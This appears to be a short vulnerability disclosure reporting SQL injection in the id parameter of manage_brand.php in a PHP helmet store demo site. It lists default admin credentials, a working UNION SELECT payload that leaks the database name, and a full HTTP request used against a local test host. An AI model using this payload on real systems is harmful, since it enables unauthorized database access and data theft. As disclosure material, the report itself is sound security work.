 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/admin/brands/manage_brand.php?id=

Vulnerability location: /hss/admin/brands/manage_brand.php?id=,id

dbname =hss_db,length=6

[+] Payload: /hss/admin/brands/manage_brand.php?id=-1%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id


```sql
GET /hss/admin/brands/manage_brand.php?id=-1%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069803-8e34bc21-90ce-44e2-9b14-fcf77089351c.png)
